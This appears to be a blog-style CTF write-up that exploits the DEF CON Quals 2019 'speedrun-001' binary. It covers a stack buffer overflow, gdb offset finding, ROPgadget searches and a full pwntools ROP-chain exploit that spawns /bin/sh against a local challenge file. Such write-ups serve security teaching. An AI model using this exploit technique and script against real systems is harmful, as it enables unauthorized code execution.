

---
search:
  exclude: true
---
# DCQuals 2019 speed

## Downloading the binary file 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
    --2021-03-05 21:19:04--  https://github.com/guyinatuxedo/nightmare/raw/master/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
    Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
    Resolving github.com (github.com)... 140.82.121.4
    Connecting to github.com (github.com)|140.82.121.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/07-bof_static/dcquals19_speedrun1/speedrun-001 [following]
    --2021-03-05 21:19:04--  https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 774392 (756K) [application/octet-stream]
    Saving to: ‘speedrun-001’
    
    speedrun-001                                                    100%[=======================================================================================================================================================>] 756.24K  2.40MB/s    in 0.3s
    
    2021-03-05 21:19:05 (2.40 MB/s) - ‘speedrun-001’ saved [774392/774392]
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → file speedrun-001
    speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → chmod +x speedrun-001
    
    

` 

## Solution 

first let's run pwn checksec onto the binary and execute it to see what it does:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → pwn checksec speedrun-001
    [*] '/home/nothing/binexp/2/speed/speedrun-001'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ./speedrun-001
    Hello brave new challenger
    Any last words?
    yes
    This will be the last thing that you say: yes
    
    Alas, you had no luck today.
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ./speedrun-001
    Hello brave new challenger
    Any last words?
    no
    This will be the last thing that you say: no
    
    Alas, you had no luck today.
    
    
    

So here we have a 64bit statically compiled binary, the binary has NX which means Non Executable stack enabled, this means that the stack memory region is not executable, to get more info on this, we look at the binary from inside ghidra, however the main function isn't called 'main' as usual, this time we need to find where the output text is:

We can use the CTRL+Shift+E to search for the program text line 'Any last words?' since it's safe to assume that it is in the main function

Now we know the main function is **FUN_00400b60** and it has the following code:
    
    
    void FUN_00400b60(void)
    
    {
      undefined local_408 [1024];
      
      FUN_00410390("Any last words?");
      FUN_004498a0(0,local_408,2000);
      FUN_0040f710("This will be the last thing that you say: %s\n",local_408);
      return;
    }
    

Here we see that our text gets put into the variable local_408 into a function called 'FUN_004498a0() which takes in 3 arguements, so let's investigate what this function really does:'
    
    
    /* WARNING: Removing unreachable block (ram,0x00449910) */
    /* WARNING: Removing unreachable block (ram,0x00449924) */
    
    undefined8 FUN_004498a0(undefined8 param_1,undefined8 param_2,undefined8 param_3)
    
    {
      undefined4 uVar1;
      
      if (DAT_006bc80c == 0) {
        syscall();
        return 0;
      }
      uVar1 = FUN_0044be40();
      syscall();
      FUN_0044bea0(uVar1,param_2,param_3);
      return 0;
    }
    
    

So the function scans for our input (which is param_2) by making a syscall instead of using the usual fgets or scanf. Looking at the assembly code around the syscall we see the following:

there is a xor call to set eax to 0 and thus the rax register is also set to 0, and we know that the rax register is important on the x86_64 architecture because this is what determines what our syscall ID is, you can check what those syscalls are [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit):

since rax is being set to 0 we are dealing with a read syscall, although we don't see the arguements being loaded for the syscall becasue they were already loaded when the function was called. Therefore the arguements this function takes, and the registers they take it in, are the same as the read syscall, so it can just call the read syscall after setting rax to zero (xoring eax with itself) 
    
    
      FUN_004498a0(0,local_408,2000);
    
    

Looking back at the call to that function, we see that the third arguement is set to 2000, this means that the third arguement (param_3) gets passed into the syscall as an arguement, we can assume this is a limit to our text input variable (local_408) which can only hold 1024 bytes as it was initialized like so:
    
    
    undefined local_408 [1024];
    
    

Now here that we are scanning in 2000 bytes worth of input into our input value, which can only hold 1024 bytes, this means that there is an overflow that can potentially overflow and overwrite the return address to get code execution.

The goal here is to create a ROP chain (Return Oriented Programming) and to use the buffer overflow to execute it. the ROP chain is made up of **ROP gadgets** , these are bits of code in the binary itself that end in a **ret** instruction

We don't have to worry about the code being non-executable because this will be all valid code. Since PIE is disabled, we know the address of all of the binary file's instructions.

Since the binary file is statically linked, that means it is a large binary with plenty of potential gadgets.

The plan here is to make a ROP chain to make a execve() syscall to execute /bin/sh and to give us a shell. The required registers are the following:
    
    
    rax:	59			#rax contains the syscall ID
    rdi:	ptr to "bin/sh"		#rbx contains the first arguement (the file to execute)
    rsi:	0			#rsi : 2nd arg
    rdx:	0			#rdx : 3rd arg
    
    

The ROP chain we will build will have 3 parts. First we write **/bin/sh** somewhere in memory, then move the pointer to it into the **rdi** register. Second, we move the necessary values into the other 3 registers. Third, we need to make the syscall itself.

Now we need to find where in memory we can write **/bin/sh** To do so we check the memory mappings while the ELF is running to see what we have to work with. So let's first choose where we will put our breakpoint:

    
    
            00400ba1 b8 00 00        MOV        EAX,0x0
                     00 00
            00400ba6 e8 65 eb        CALL       FUN_0040f710                                     undefined FUN_0040f710(undefined
                     00 00
            00400bab 90              NOP
            00400bac c9              LEAVE
            00400bad c3              RET
    
    

So here we see that the last text output of the binary is at 0x400ba6 so we set our breakpoint right after at **0x400bab**
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → gdb ./speedrun-001
    GNU gdb (GDB) 10.1
    Copyright (C) 2020 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later 
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-pc-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    .
    Find the GDB manual and other documentation resources online at:
        .
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    GEF for linux ready, type `gef' to start, `gef config' to configure
    92 commands loaded for GDB 10.1 using Python engine 3.9
    Reading symbols from ./speedrun-001...
    (No debugging symbols found in ./speedrun-001)
    gef➤  b *0x400bab
    Breakpoint 1 at 0x400bab
    gef➤  r
    Starting program: /home/nothing/binexp/2/speed/speedrun-001
    Hello brave new challenger
    Any last words?
    13371337
    This will be the last thing that you say: 13371337
    
    
    Breakpoint 1, 0x0000000000400bab in ?? ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x34
    $rbx   : 0x0000000000400400  →   sub rsp, 0x8
    $rcx   : 0x0
    $rdx   : 0x00000000006bbd30  →  0x0000000000000000
    $rsp   : 0x00007fffffffdad0  →  "13371337\n"
    $rbp   : 0x00007fffffffded0  →  0x00007fffffffdef0  →  0x0000000000401900  →   push r15
    $rsi   : 0x0
    $rdi   : 0x1
    $rip   : 0x0000000000400bab  →   nop
    $r8    : 0x34
    $r9    : 0x34
    $r10   : 0xfffffff7
    $r11   : 0x246
    $r12   : 0x00000000004019a0  →   push rbp
    $r13   : 0x0
    $r14   : 0x00000000006b9018  →  0x0000000000443e60  →   mov rcx, rsi
    $r15   : 0x0
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffdad0│+0x0000: "13371337\n"         ← $rsp
    0x00007fffffffdad8│+0x0008: 0x000000000000000a
    0x00007fffffffdae0│+0x0010: 0x0000000000000000
    0x00007fffffffdae8│+0x0018: 0x0000000000000000
    0x00007fffffffdaf0│+0x0020: 0x0000000000000000
    0x00007fffffffdaf8│+0x0028: 0x0000000000000000
    0x00007fffffffdb00│+0x0030: 0x0000000000000000
    0x00007fffffffdb08│+0x0038: 0x0000000000000000
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x400b9a                  lea    rdi, [rip+0x919b7]        # 0x492558
         0x400ba1                  mov    eax, 0x0
         0x400ba6                  call   0x40f710
    ●→   0x400bab                  nop
         0x400bac                  leave
         0x400bad                  ret
         0x400bae                  push   rbp
         0x400baf                  mov    rbp, rsp
         0x400bb2                  lea    rdi, [rip+0x919cd]        # 0x492586
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "speedrun-001", stopped 0x400bab in ?? (), reason: BREAKPOINT
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x400bab → nop
    [#1] 0x400c1d → mov eax, 0x0
    [#2] 0x4011a9 → mov edi, eax
    [#3] 0x400a5a → hlt
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤
    
    

So here we basically used gdb to set the breakpoint at **0x400bab** and then we ran the binary, putting 13371337 as our input text so that it is an easy pattern to find in memory. So before we check for where our pattern is in memory, let's check the memory mappings to see what we have to work with: 
    
    
    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/nothing/binexp/2/speed/speedrun-001
    0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/nothing/binexp/2/speed/speedrun-001
    0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
    0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
    
    

Now here we see the elf memory region between **0x6b6000** and **0x6bc000** because this is from the elf's memory space that does not have PIE, therefore we know what the address is without an infoleak. In addition to that, the permissions are **rw** as you can see on the right, which means that we can read and write to it. Since the space in between the aforementionned memory addresses is only zeroes, we shouldn't mess anything up if we store it here. So let's find the offset between the start of our input where our **13371337** pattern is:
    
    
    gef➤  search-pattern 13371337
    [+] Searching '13371337' in memory
    [+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
      0x7fffffffb46a - 0x7fffffffb476  →   "13371337\n\n"
      0x7fffffffdad0 - 0x7fffffffdada  →   "13371337\n"
    
    gef➤  info frame
    Stack level 0, frame at 0x7fffffffdee0:
     rip = 0x400bab; saved rip = 0x400c1d
     called by frame at 0x7fffffffdf00
     Arglist at 0x7fffffffdac8, args:
     Locals at 0x7fffffffdac8, Previous frame's sp is 0x7fffffffdee0
     Saved registers:
      rbp at 0x7fffffffded0, rip at 0x7fffffffded8
    
    

Here we see that our input address is at **0x7fffffffdad0** and the return address is at **0x7fffffffded8** , Now let's calculate the offset between the 2 addresses:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/6 ] [blog/binexp/2]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(  0x7fffffffdad0   - 0x7fffffffded8 )
    '-0x408'
    
    

Now we know that have an offset of 0x408 bytes between our input text and the return function. Next step is to find the ROP Gadgets we will use. To do so we will use ROPGadgets.py you can check out how we installed it in the previous tutorial [here](calc.md). Now let's find the gadgets we need for the **rax, rdi, rsi and rdx** registers using the following template: 
    
    
    "pop register ; ret"
    
    
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ROPgadget --binary speedrun-001 | grep "pop rax ; ret"
    0x0000000000415662 : add ch, al ; pop rax ; ret
    0x0000000000415661 : cli ; add ch, al ; pop rax ; ret
    0x00000000004a9321 : in al, 0x4c ; pop rax ; retf
    0x0000000000415664 : pop rax ; ret
    0x000000000048cccb : pop rax ; ret 0x22
    0x00000000004a9323 : pop rax ; retf
    0x00000000004758a3 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ROPgadget --binary speedrun-001 | grep "pop rdi ; ret"
    0x0000000000423788 : add byte ptr [rax - 0x77], cl ; fsubp st(0) ; pop rdi ; ret
    0x000000000042378b : fsubp st(0) ; pop rdi ; ret
    0x0000000000400686 : pop rdi ; ret
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ROPgadget --binary speedrun-001 | grep "pop rsi ; ret"
    0x000000000046759d : add byte ptr [rbp + rcx*4 + 0x35], cl ; pop rsi ; ret
    0x000000000048ac68 : cmp byte ptr [rbx + 0x41], bl ; pop rsi ; ret
    0x000000000044be39 : pop rdx ; pop rsi ; ret
    0x00000000004101f3 : pop rsi ; ret
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ROPgadget --binary speedrun-001 | grep "pop rdx ; ret"
    0x00000000004a8881 : js 0x4a88fe ; pop rdx ; retf
    0x00000000004498b5 : pop rdx ; ret
    0x000000000045fe71 : pop rdx ; retf
    
    

So we have found the following gadget addresses for each of our registers:
    
    
    rax	415664 	
    rdi	400686 
    rsi	4101f3 
    rdx	4498b5 
    
    

Next we will need a gadget which will write the string **/bin/sh** somewhere in memory, for this we just look through all the gadgets with a mov instruction, we want a rax pointer and the gadget must end with **; ret** :
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/speed]
    → ROPgadget --binary speedrun-001 | grep "mov" | grep "ptr \[rax\]" | grep "; ret$"
    
    

Looking through for the shortest (and simplest) instructions we find the following:
    
    
    0x000000000048d251 : mov qword ptr [rax], rdx ; ret
    
    

This gadget will allow us to write an 8 byte value stored in **rdx** to whatever address is pointed to by the **rax** register. In addition this is convenient becuase we can use the 4 gadgets we found earlier to prepare this write. And lastly we need to find a gadget to actually make the syscall:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/speed]
    → ROPgadget --binary speedrun-001 | grep "syscall"
    
    [...]
    
    0x000000000040dbdd : sub dword ptr [rsp + 0xf0], eax ; syscall
    0x0000000000475453 : sub esp, 8 ; syscall
    0x0000000000475452 : sub rsp, 8 ; syscall
    0x000000000040129c : syscall
    
    [...]
    
    

And we have our syscall gadget at 0x40129c. With all of the above, we can finally construct our ROP chain, so we will overwrite the return address with the first gadget of the rop chain, and when it returns it will keep on going down the chain until we get our shell. To move the values into registers, we store the values on the stack inside the ROP chain, and they will be popped off into registers. So we end up with the following exploit:
    
    
    from pwn import *
    
    target = process('./speedrun-001')
    
    # Establish our ROP Gadgets
    popRax = p64(0x415664)
    popRdi = p64(0x400686)
    popRsi = p64(0x4101f3)
    popRdx = p64(0x4498b5)
    
    # 0x000000000048d251 : mov qword ptr [rax], rdx ; ret
    writeGadget = p64(0x48d251)
    
    # Our syscall gadget
    syscall = p64(0x40129c)
    
    '''
    Here is the assembly equivalent for these blocks
    write "/bin/sh" to 0x6b6000
    
    pop rdx, 0x2f62696e2f736800
    pop rax, 0x6b6000
    mov qword ptr [rax], rdx
    '''
    rop = b""
    rop += popRdx
    rop += b"/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
    rop += popRax
    rop += p64(0x6b6000)
    rop += writeGadget
    
    '''
    Prepare the four registers with their arguments, and make the syscall
    
    pop rax, 0x3b
    pop rdi, 0x6b6000
    pop rsi, 0x0
    pop rdx, 0x0
    
    syscall
    '''
    
    rop += popRax
    rop += p64(0x3b)
    
    rop += popRdi
    rop += p64(0x6b6000)
    
    rop += popRsi
    rop += p64(0)
    rop += popRdx
    rop += p64(0)
    
    rop += syscall
    
    
    # Add the padding to the saved return address
    payload = b"\x00"*0x408 + rop
    
    print(hexdump(payload))
    
    

Let's run the exploit to see the hexdump of our payload:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/speed]
    → python3 exploit.py
    [+] Starting local process './speedrun-001': pid 2115567
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000400  00 00 00 00  00 00 00 00  b5 98 44 00  00 00 00 00  │····│····│··D·│····│
    00000410  2f 62 69 6e  2f 73 68 00  64 56 41 00  00 00 00 00  │/bin│/sh·│dVA·│····│
    00000420  00 60 6b 00  00 00 00 00  51 d2 48 00  00 00 00 00  │·`k·│····│Q·H·│····│
    00000430  64 56 41 00  00 00 00 00  3b 00 00 00  00 00 00 00  │dVA·│····│;···│····│
    00000440  86 06 40 00  00 00 00 00  00 60 6b 00  00 00 00 00  │··@·│····│·`k·│····│
    00000450  f3 01 41 00  00 00 00 00  00 00 00 00  00 00 00 00  │··A·│····│····│····│
    00000460  b5 98 44 00  00 00 00 00  00 00 00 00  00 00 00 00  │··D·│····│····│····│
    00000470  9c 12 40 00  00 00 00 00                            │··@·│····│
    00000478
    
    

Now that we see our payload is correct, we send it to the binary file with the following 2 lines:
    
    
    target.sendline(payload)
    target.interactive()
    
    

Now let's run the exploit to see if everything works as intended:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/speed]
    → python3 exploit.py
    [+] Starting local process './speedrun-001': pid 2146710
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000400  00 00 00 00  00 00 00 00  b5 98 44 00  00 00 00 00  │····│····│··D·│····│
    00000410  2f 62 69 6e  2f 73 68 00  64 56 41 00  00 00 00 00  │/bin│/sh·│dVA·│····│
    00000420  00 60 6b 00  00 00 00 00  51 d2 48 00  00 00 00 00  │·`k·│····│Q·H·│····│
    00000430  64 56 41 00  00 00 00 00  3b 00 00 00  00 00 00 00  │dVA·│····│;···│····│
    00000440  86 06 40 00  00 00 00 00  00 60 6b 00  00 00 00 00  │··@·│····│·`k·│····│
    00000450  f3 01 41 00  00 00 00 00  00 00 00 00  00 00 00 00  │··A·│····│····│····│
    00000460  b5 98 44 00  00 00 00 00  00 00 00 00  00 00 00 00  │··D·│····│····│····│
    00000470  9c 12 40 00  00 00 00 00                            │··@·│····│
    00000478
    [*] Switching to interactive mode
    Hello brave new challenger
    Any last words?
    This will be the last thing that you say:
    $ cat flag.txt
    flag{g0ttem_b0yz}
    $ id
    uid=1000(nothing) gid=1000(nothing) groups=1000(nothing),90(network),98(power),972(libvirt),988(storage),990(optical),995(audio),998(wheel)
    $
    
    

And that's it! We have been able to spawn a shell and print out the flag!

## Title 

text 
    
    
    

` 

## Title 

text 
    
    
    

` 

